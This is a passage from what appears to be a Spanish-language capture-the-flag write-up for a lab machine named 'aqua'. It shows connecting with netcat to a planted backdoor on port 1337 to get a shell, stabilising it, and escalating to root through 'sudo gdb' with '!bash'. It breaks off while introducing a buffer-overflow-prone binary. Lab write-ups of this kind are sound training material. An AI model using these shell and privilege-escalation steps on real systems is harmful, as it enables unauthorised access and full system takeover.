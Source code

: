 ```bash
megumin@aqua:/$ sudo /home/aqua/Desktop/backdoor
[+] Backdoor opened! Hehehe...
```

Somos `aqua` 

```bash
❯ netcat 192.168.1.84 1337
whoami
aqua
script /dev/null -c bash
Script started, file is /dev/null
aqua@aqua:~$ whoami
whoami
aqua
aqua@aqua:~$ id
id
uid=1000(aqua) gid=1000(aqua) groups=1000(aqua),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
aqua@aqua:~$ 
```

Bueno para ser `root` la forma mas facil es esta

```bash
aqua@aqua:~$ sudo gdb -q
sudo gdb -q
(gdb) !bash
!bash
root@aqua:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:~# whoami
whoami
root
root@aqua:~# 
```

Pero bueno tambien puedes explotar un binario que es vulnerable a  `Buffer overflow`

## Root 2

Este es el binario y nos pide un nombre

```bash
aqua@aqua:~$ sudo /root/quotes
sudo /root/quotes
/root/quotes [Your name here] 
aqua@aqua:~$ 
```

Nos dice esto

```bash
aqua@aqua:~$ sudo /root/quotes miguel7
sudo /root/quotes miguel7
Hi miguel7,
A tiger doesn't lose sleep over the opinion of sheep.
aqua@aqua:~$ 
```
